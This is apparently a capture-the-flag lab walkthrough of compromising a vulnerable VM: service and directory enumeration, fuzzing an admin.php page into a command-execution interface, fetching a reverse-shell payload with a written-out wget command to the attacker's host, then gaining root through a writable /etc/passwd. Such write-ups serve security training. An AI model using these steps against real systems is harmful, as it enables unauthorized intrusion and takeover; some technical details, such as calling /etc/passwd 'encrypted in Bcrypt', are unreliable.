Enumerate target services
Discover the web admin interface
Prove remote command execution (RCE) by delivering a controlled payload and obtaining an interactive shell
Elevating privileges
Web applications typically expose endpoints for administrative access, which may allow an attacker to execute arbitrary commands on the host if they are not securely implemented. In this lab, I will treat the target as a purposely vulnerable, authorized testing instance (i.e., CTF / vulnerability VM) for the purposes of practicing practical offensive and defensive skills. Armed with permission, I will practice reconnaissance, exploitation, post-exploitation enumeration, and containment / mitigation advice. My task is not to damage any production systems at all. This is strictly limited to a lab network where I have explicit permission.
Starting, I run an Nmap scan to determine initial attack vectors. Thus, opened ports running vulnerable services, and you can bet, I found some just as seen in the image below.

I then accessed the web service running on Port 80.

I ran gobuster against the web root using a medium directory wordlist to find hidden directories or files (admin pages, config files) that are not linked from the site. The scan began and progressed; I kept the process running to pick up any hits.

I let the directory enumeration run and monitored for non-404 status codes and any discovered paths. I saw some timeouts and lots of 404s. Large wordlists will result in timeouts, but can still reveal valuable pages. I let the scan run to get maximum coverage. The fuzzing indicated sporadic positive responses; I kept investigating the discovered paths.

I went to the directory that was found and saw an index revealing a file admin.php. An open admin page is a very attractive target, as it usually has control features that can be exploited. The index verified that admin.php is there and can be reached at that location.

To see the behavior of the admin page, I tried to access it with the browser using the URL http://192.168.56.109/restricted_access/admin.php. The response that I got was 403 Forbidden. Therefore, the page is there but it is likely to be protected by some sort of authorization, or it might need some parameters.

I utilized the ffuf tool to perform brute force testing on the query parameters of admin.php to discover any additional functionality that the admin may have hidden. When the original path can't be accessed for some reason, brute forcing query parameters will often lead you to usable endpoints, like a ?cmd= endpoint or similar. ffuf generated several non-403 response codes from admin.php and began to show the candidate parameter names or outputs. This eventually led me to the admin UI, which accepts command input.

I went over to the interface that was found and saw an input named Execute Command with a Run Command button. If the server page is executing the commands from the form that is essentially the RCE vector; so, I had to verify that it actually runs the OS commands on the server-side. The user interface seemed to allow commands (this is the main vulnerability)

On my Kali machine, I generated a reverse shell code from revshells and started a simple HTTP server to host payloads and prepared netcat to listen for a reverse shell.

Using the admin UI, I sent a command:
wget http://192.168.56.108:9001/reverse to get my staged
payload. By bringing the payload to the target, it is possible to run a
file that will establish a connection with my listener.

The UI confirmed the command and indicated the requested filename.

I kept an eye on my nc listener; it showed that a connection was made by the target. That means they have established an interactive channel from the target to the attacker.

I previously had only a shell without full tty capabilities, so I wrote a short Python script to upgrade it to a proper tty. Reverse shells can be problematic, and there are many useful features of a proper tty, such as job control and command editing etc. You can spawn a pty that turns it into a usable shell. I was able to work with an interactive shell with stability.
I listed /home, found the nana user, and read the user.proof file. To prove user-level access in the lab, it is important to find the user.proof. I documented the user.proof value as evidence of compromise.


At this time, my main goal changed. I needed to obtain root privileges so that I could extract the root proof and finally complete the lab challenge. Because checking manually is slow and prone to mistakes, I decided to use linpeas.sh for a fast and thorough local enumeration. Linpeas is built to check for common privilege escalation routes (SUID binaries, bad scripts, cron jobs, bad file permissions, credential files and services that are misconfigured), so it was the quickest method of looking for reliable escalation avenues without just guessing.


I ran linpeas.sh and looked through its results in detail to figure out the most likely ways to escalate the privileges. Linpeas brought up a variety of interesting clues (for instance, insecure writable files, a service running under a higher-privileged user, or a credential saved in the web directory). Since /etc/passwd was writable, the only thing I had to do was copy the file and write to it.

After accessing the /etc/passwd file, I realized it was encrypted in Bcrypt. I used an online Bcrypt Generator to replace the X value in the root passed to a hash of my own.

I successfully edited the /etc/passwd file and downloaded it back onto the vulnerable machine.

I cat the file out to confirm I have the right file.

After confirming the file, I switched to the root account and validated root access by listing root-only files and reading the root.proof
